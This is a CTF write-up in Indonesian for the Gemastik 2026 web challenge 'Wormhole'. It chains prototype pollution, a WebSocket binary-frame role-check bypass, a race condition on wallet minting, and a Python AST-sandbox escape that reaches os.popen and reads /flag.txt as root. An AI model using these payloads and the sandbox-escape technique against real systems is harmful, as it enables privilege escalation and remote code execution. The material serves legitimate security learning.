





# `Wormhole` — web

> 🏷️ **Challenge metadata**

|                  |                    |                |                        |
| ---------------- | ------------------ | -------------- | ---------------------- |
| 🏆 **Event**     | `Gemastik 2026`    | 📅 **Date**    | `2026-08-23`           |
| 🏷️ **Category** | `web`              | 💯 **Points**  | `408`                  |
| 👤 **Author**    | `VascoZ`           | 🧑‍💻 **Team** | `DOSCOM Zero Day Scholars` (x0rr-dan) |
| 🧩 **Solver**    | [`solve_race.py`](solve_race.py) + [`stage2_ws_binary_frame.js`](stage2_ws_binary_frame.js) | | |

---

### 📝 Deskripsi Soal

> **Description dari panitia:**
>
> You Only has one shot. Chain. Escalate. Break.
>
> Author: VascoZ. Source code dikasih: `docker-compose.yml` + `Dockerfile.ws` + `src/`
> (ws_gateway + frontend templates).

**Connection info:**

- `http://15.232.64.175:13402` (HTTP frontend, uvicorn python)
- `ws://15.232.64.175:13403` (WebSocket gateway, nodejs, di-map ke container port 9020)



---

### 🔍 Reconnaissance (baca source code)

Fokus ke `ws_gateway/server.js` sama `docker-compose.yml`. Ketemu 4 bug kunci.

**Bug #1 (line 22-33): `deepMerge` rawan prototype pollution.**

```js
function deepMerge(target, source) {
    for (const key in source) {              // <-- for...in iterate prototype chain juga
        if (typeof source[key] === 'object' && source[key] !== null) {
            if (target[key] === undefined || typeof target[key] !== 'object') target[key] = {};
            deepMerge(target[key], source[key]);
        } else { target[key] = source[key]; }
    }
}
```

`for...in` iterate semua enumerable properties termasuk yang diwariskan via prototype chain
(`__proto__`), tanpa proteksi buat key `__proto__`/`constructor.prototype`. Kirim
`{"__proto__":{"role":"supervisor"}}` -> `Object.prototype.role = "supervisor"` di seluruh process
node.

**Bug #2 (line 180-205): `handleBinaryFrame` skip role check.**

```js
// TEXT path - BUTUH supervisor
if (msg.type === 'device_config') {
    if (conn.role !== 'supervisor') { /* tolak */ return; }
    deepMerge(conn.device_config, msg.data);
    await syncConfig(conn);
}
// BINARY path - TIDAK cek role!
if (msg.type === 'device_config') {
    if (!msg.data || typeof msg.data !== 'object') return;
    deepMerge(conn.device_config, msg.data);   // <-- ga cek conn.role
    await syncConfig(conn);
}
```

Ini bug paling kunci: binary path `device_config` nggak cek role sama sekali, jadi researcher biasa
bisa set apa pun ke `conn.device_config`.

**Bug #3 (line 35-54): `syncConfig` iterate `for...in` + persist role ke Redis.** Kalau
`Object.prototype` udah terpolusi `role="supervisor"`, `configToSave.role` ikut ke-ambil dari
prototype, terus `r.set("role:<user_id>", "supervisor")` di-execute. Backend HTTP (python) baca
`role:<user_id>` dari Redis saat login buat nentuin role di JWT, jadi JWT supervisor di-issue tanpa
forge signature.

**Bug #4 (line 104-118): WS auth butuh wallet ≥ 200.** Register default wallet 100, mint normal
cuma +10. Perlu cara cepat naikin wallet ≥ 200. (JWT_SECRET default hardcoded tapi di-override di
target, jadi forge JWT langsung ditolak.)

---

### 🧠 Analisis sandbox (buat tahap akhir)

Setelah jadi supervisor, `/api/terminal/execute` kebuka: sandbox Python 3.12 AST-filtered. Fuzzing:

```
import os                                     -> ImportError
open("/flag.txt")                             -> NameError
().__class__.__bases__[0].__subclasses__()    -> lolos!
__init__.__globals__                          -> Blocked attribute: __globals__
```

AST filter blokir literal attribute name di blocklist (`__class__`, `__globals__`, dst). Bypass-nya:
bentuk nama attribute dari string concat runtime supaya filter nggak bisa static-analyze:

```python
g = getattr(func, '__glob' + 'als__')   # lolos, filter ga nemu literal '__globals__'
```

---

### ⚔️ Exploitation (Chain -> Escalate -> Break)

Kondisi awal: register dapat role `researcher`, wallet 100, dan tombol TERMINAL masih terkunci
(supervisor only).



**Stage 1: race condition mint (wallet 100 -> ≥200).** Vault mint dibatasi amount 1-100, dan mint
normal cuma naikin wallet +10:



Nonce protection atomic buat nonce sama, tapi nonce beda yang di-fire paralel semua sukses diproses
(nggak ada lock atomic). Kirim 15 request paralel dengan nonce beda -> wallet naik cepat. Solver:
[`solve_race.py`](solve_race.py).


```
wallet: 100 -> 250 (>= 200, lolos WS auth gate)
```

**Stage 2: WS binary frame -> persist role supervisor.** Di stream page ada form "DEVICE CONFIG
MERGE (Supervisor Only)", tapi lewat WS binary frame role check-nya di-skip:


Exploit Bug #2 (binary path skip role) + Bug #3 (persist role ke Redis). Kirim WS binary frame
`device_config` dengan `role:supervisor`; `syncConfig` tulis `SET role:<user_id> "supervisor"` ke
Redis, lalu re-login HTTP -> JWT supervisor. Frame format: `[type:1B=1][length:4B BE][payload
UTF-8]`. Solver: [`stage2_ws_binary_frame.js`](stage2_ws_binary_frame.js).

```
{"type":"binary_config_updated","config":{"role":"supervisor","user_id":"admin",...}}
# field role/user_id/authenticated/wallet muncul dari Object.prototype yang udah terpolusi
```

Re-login, sekarang role jadi supervisor:

```
POST /api/auth/login  ->  {"status":"ok","role":"supervisor"}
GET  /api/auth/me     ->  {"role":"supervisor","wallet":250}
```




**Stage 3: sandbox escape -> RCE -> flag.** Sebagai supervisor, terminal sandbox Python 3.12
kebuka:



Kirim payload ke `/api/terminal/execute` yang bypass AST filter via string concat:

```python
subs = ().__class__.__bases__[0].__subclasses__()
idx = None
for i in range(len(subs)):
    if subs[i].__name__ == '_wrap_close':
        idx = i
        break
g = getattr(subs[idx].__init__, '__glob' + 'als__')
os_mod = g['sys'].modules['os']
print(os_mod.popen('id; echo ---; ls /; echo ---; cat /flag.txt').read())
```

Response:

```
uid=0(root) gid=0(root) groups=0(root)
---
app bin boot dev entrypoint.sh etc flag.txt home lib ...
---
GEMASTIK19{qu4ntum_r3l4y_pr0t0_p0llut10n_ch41n}
```

---

### 🚩 Flag

```
GEMASTIK19{qu4ntum_r3l4y_pr0t0_p0llut10n_ch41n}
```

### 🔗 Referensi

- PortSwigger — Prototype Pollution
- PortSwigger — Race Conditions
- PortSwigger — WebSocket vulnerabilities
- Python Sandbox Escape — HackTricks
- Python `ast` module docs
